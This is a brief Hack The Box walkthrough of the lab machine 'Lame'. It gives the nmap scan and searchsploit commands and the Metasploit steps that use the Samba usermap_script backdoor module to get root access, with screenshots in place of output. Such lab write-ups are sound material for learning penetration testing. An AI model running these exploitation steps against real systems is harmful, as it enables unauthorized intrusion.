 # Hack the box - Lame

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/linux.png"> </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.3</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 14</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.3
```
![Nmap results](./nmap.png)

We can see there is anonymous FTP login on port 21 and 2 samba smbd services running.

___

## Gaining access

We will use searchsploit for checking vulnerabilities:

```
searchsploit samba 3 metasploit
```

![Searchsploit](./searchsploit.png)

Now it is clear that we can use metasploit to exploit backdoor vulnerability:

```
msfconsole
use exploit/multi/samba/usermap_script
set rhosts 10.10.10.3
exploit
```

![Exploiting](./exploiting.png)

After successful exploit, it seems that we have root access to the system so we can easily get the flags:

![Capturing the flags](./capturing_flags.png)